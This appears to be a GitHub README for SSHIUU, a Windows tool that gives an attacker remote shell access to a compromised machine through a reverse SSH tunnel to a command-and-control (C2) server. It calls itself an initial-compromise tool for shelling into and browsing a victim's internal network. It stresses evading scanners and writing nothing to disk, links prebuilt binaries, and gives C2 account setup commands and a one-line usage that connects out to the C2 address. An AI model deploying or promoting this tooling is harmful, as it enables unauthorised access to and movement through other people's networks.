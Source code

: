 # SSHIUU
![alt text](https://media1.tenor.com/images/616ff5ed375ce21b68e1809efab574db/tenor.gif?itemid=9888637)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/SSHIUU/releases/tag/v1.0). 

If you want to compile from source keep reading:
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).



## Using it
It's very easy: 

```
SSHIUU.exe 192.168.15.135
```
